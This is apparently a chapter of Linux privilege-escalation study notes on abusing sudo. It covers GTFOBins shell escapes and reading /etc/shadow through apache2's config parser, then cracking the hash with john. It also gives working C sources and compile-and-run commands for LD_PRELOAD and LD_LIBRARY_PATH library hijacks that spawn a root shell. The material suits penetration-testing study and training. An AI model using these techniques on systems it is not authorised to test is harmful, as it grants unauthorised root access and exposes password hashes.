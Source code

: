 # 6. Sudo

### Introduction

sudo is a program which lets users run other programs with the security privileges of other users. By default, that other user will be root.

A user generally needs to enter their password to use sudo, and they must be permitted access via rule(s) in the /etc/sudoers file.

Rules can be used to limit users to certain programs, and forgo the password entry requirement.



### Useful Commands

Run a program using sudo:

```bash
$ sudo <program>
```

Run a program as a specific user:

```bash
$ sudo –u <username> <program>
```

List programs a user is allowed (and disallowed) to run:

```bash
$ sudo -l
```



### Known Password

By far the most obvious privilege escalation with sudo is to use sudo as it was intended!

If your low privileged user account can use sudo unrestricted (i.e. you can run any programs) and you know the user’s password, privilege escalation is easy, by using the “switch user” (su) command to spawn a root shell:

```bash
$ sudo su
```



### Other Methods

If for some reason the su program is not allowed, there are many other ways to escalate privileges:

```bash
$ sudo -s
$ sudo -i
$ sudo /bin/bash
$ sudo passwd
```



### Shell Escape Sequences

Even if we are restricted to running certain programs via sudo, it is sometimes possible to “escape” the program and spawn a shell.

Since the initial program runs with root privileges, so does the spawned shell.

A list of programs with their shell escape sequences can be found here: [GTFOBins](https://gtfobins.github.io/)

1. List the programs your user is allowed to run via `sudo -l`
2. For each program in the list, see if there is a shell escape sequence on GTFOBins
3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.



### Abusing Intended Functionality

If a program doesn’t have an escape sequence, it may still be possible to use it to escalate privileges.

If we can read files owned by root, we may be able to extract useful information (e.g. passwords, hashes, keys).

If we can write to files owned by root, we may be able to insert or modify information.

1. List the programs your user is allowed to run via sudo:
   * ```bash
     $ sudo -l
     ...
     (root) NOPASSWD: /usr/sbin/apache2
     ```
   * Note that apache2 is in the list.
2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand
3. Run apache2 using sudo, and provide it the **/etc/shadow** file as a config file:
   * ```bash
     $ sudo apache2 -f /etc/shadow
     Syntax error on line 1 of /etc/shadow:
     Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84O WAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
     ```
4. Extract the root user’s hash from the file and crack it with john.
   * ```bash
     john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```



### Environment Variables

Programs run through sudo can inherit the environment variables from the user’s environment.

In the **/etc/sudoers** config file, if the **env\_reset** option is set, sudo will run programs in a new, minimal environment.

The **env\_keep** option can be used to keep certain environment variables from the user’s environment.

The configured options are displayed when running `sudo -l`

#### 1. LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file.

When set, the shared object will be loaded before any others.

By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

**Limitations**

LD\_PRELOAD will not work if the real user ID is different from the effective user ID.

sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

1. List the programs your user is allowed to run via sudo:
   * ```bash
     $ sudo -l
     Matching Defaults entries for user on this host:
     env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
     ...
     ```
   * Note that the env\_keep option includes the LD\_PRELOAD environment variable.
2. Create a file (preload.c) with the following contents:
   * ```c
     #include <stdio.h>
     #include <sys/types.h>
     #include <stdlib.h>
     void _init() {
     	unsetenv("LD_PRELOAD");
     	setresuid(0,0,0);
     	system("/bin/bash -p");
     }
     ```
3. Compile preload.c to preload.so:
   * ```bash
     $ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
     ```
4. Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:
   * ```bash
     $ sudo LD_PRELOAD=/tmp/preload.so apache2
     # id
     uid=0(root) gid=0(root) groups=0(root)
     ```

#### 2. LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The `ldd` command can be used to print the shared libraries used by a program:

```bash
$ ldd /usr/sbin/apache2
```

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

1. Run ldd against the apache2 program file:
   * ```bash
     $ ldd /usr/sbin/apache2
     linux-vdso.so.1 => (0x00007fff063ff000)
     ...
     libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
     libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
     libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
     /lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)
     ```
   * Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).
2. Create a file (library\_path.c) with the following contents:
   * ```c
     #include <stdio.h>
     #include <stdlib.h>
     static void hijack() __attribute__((constructor));
     void hijack() {
     	unsetenv("LD_LIBRARY_PATH");
     	setresuid(0,0,0);
     	system("/bin/bash -p");
     }
     ```
3. Compile library\_path.c into libcrypt.so.1:
   * ```bash
     $ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
     ```
4. Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):
   * ```bash
     $ sudo LD_LIBRARY_PATH=. apache2
     # id
     uid=0(root) gid=0(root) groups=0(root)
     ```

